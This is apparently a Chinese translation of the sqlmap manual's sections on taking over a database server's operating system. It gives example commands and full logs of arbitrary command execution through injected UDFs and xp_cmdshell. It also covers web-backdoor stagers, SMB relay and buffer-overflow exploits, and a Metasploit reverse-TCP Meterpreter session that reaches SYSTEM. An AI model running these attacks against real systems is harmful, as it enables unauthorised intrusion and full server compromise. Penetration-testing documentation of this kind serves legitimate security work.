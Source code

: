 ## 接管操作系统

### 运行任意系统命令

选项和开关: `--os-cmd` and `--os-shell`

当后端数据库为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性利用的权限时，sqlmap 能够在数据库所在的操作系统上运行任意的命令。

在 MySQL 和PostgreSQL 中，sqlmap 可以上传(通过前面描述的文件上传功能)一个包含两个用户自定义函数(分别为 `sys_exec()` 和 `sys_eval()`)的共享库(二进制制式文件)，然后在数据库中创建出两个对应函数，通过调用对应函数执行特定的命令。并允许用户选择是否打印出相关命令执行的结果。在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：如果该存储过程被关闭了(在 Microsoft SQL Server 版本 2005 及以上是默认关闭的)，sqlmap 则会将其重新打开。如果该存储过程不存在，sqlmap 则会重新创建它。

当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术(盲注、带内注入、报错型注入)去获取对应结果。相反的，如果无需输出对应的结果，sqlmap 则会使用堆查询注入技术执行相关的命令。

这些技术的相关详情可见白皮书 [通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

下面是以 PostgreSQL 为目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

sqlmap 还支持模拟 shell 输入，你可以输入任意命令用于执行。对应的选项是 `--os-shell`，并且和 `--sql-shell` 一样，具备 TAB 补全和记录历史命令的功能。

如果堆查询没有被 web 应用(例如：PHP 或 ASP 及后端数据库管理系统为 MySQL)识别出来，并且后端数据库为 MySQL，假如后端数据库和 Web 服务器在同一台服务器上，则仍然可以通过利用 `SELECT`语句中的`INTO OUTPUT`，在 Web 服务器根目录中的可写文件夹中创建相应的 Web 后门，保证相关的命令执行。sqlmap 支持上述功能并允许用户提供一个逗号分隔、用于指定 web 服务器文件子目录的列表，用于上传相关的 stager 文件或者后续的 Web 后门。 sqlmap 对下列的语言有相关的stager 文件检测和后门：

* ASP
* ASP.NET
* JSP
* PHP

###  带外状态连接: Meterpreter & friends

选项和开关: `--os-pwn`, `--os-smbrelay`, `--os-bof`, `--priv-esc`, `--msf-path` and `--tmp-path`

当后端数据库为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性利用的权限时，sqlmap 能够在攻击者机器与数据库所在的服务器之间建立起 ** 带外有状态的 TCP 连接**。根据用户的选择，该连接可以时交互式命令行形式、Meterpreter 会话、或者用户界面(VNC)会话。

sqlmap 依赖 Metasploit，用于创建相关的 shellcode，实现了在数据库服务器上执行的四种技术。相关技术详情如下：


* 通过 sqlmap 的用户自定义函数 `sys_bineval()` 在数据库 **内存中执行 Metasploit's shellcode*。 在 MySQL 和 PostgreSQL 中，通过开关 `--os-pwn`实现。
* 通过 MySQL 和 PostgreSQL 中的用户自定义函数`sys_exec()`，或者 Microsoft SQL Server 的`xp_cmdshell()`，上传并执行 Metasploit's **独立负载文件传输器**，通过开关`--os-pwn`实现。
* Upload and execution of a Metasploit's **stand-alone payload stager** via sqlmap own user-defined function `sys_exec()` on MySQL and PostgreSQL or via `xp_cmdshell()` on Microsoft SQL Server - switch `--os-pwn`.
* 
* Execution of Metasploit's shellcode by performing a **SMB reflection attack** ([MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)) with a UNC path request from the database server to
the attacker's machine where the Metasploit `smb_relay` server exploit listens. Supported when running sqlmap with high privileges (`uid=0`) on Linux/Unix and the target DBMS runs as Administrator on Windows - switch `--os-smbrelay`.
* Database in-memory execution of the Metasploit's shellcode by exploiting **Microsoft SQL Server 2000 and 2005
`sp_replwritetovarbin` stored procedure heap-based buffer overflow** ([MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)). sqlmap has its own exploit to trigger the
vulnerability with automatic DEP memory protection bypass, but it relies on Metasploit to generate the shellcode to get executed upon successful exploitation - switch `--os-bof`.

相关的技术详情可见白皮书[通过高级 SQL 注入，进行操作系统的完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)和演讲幻灯片 [将控制由数据库层面拓展到操作系统层面](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database).

以 MySQL 为目标的一个例子:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认， 在 Windows 上 MySQL 以 `SYSTEM` 身份运行，然而 PostgreSQL 则在 Windows 和 Linux 上都是以低权限用户 `postgres` 运行。Microsoft SQL Server 2000 默认以 `SYSTEM` 身份运行，而对于 Microsoft SQL 2005 和 2008，则大部分以 `NETWORK SERVICE` 身份运行，有时候以 `LOCAL SERVICE` 身份运行。

同时，sqlmap 支持提供 `--priv-esc` 开关，用于数据库进程用户通过 Metasploit's `getsystem` 命令及相关的[kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) 技术 ([MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx))，进行提权操作。
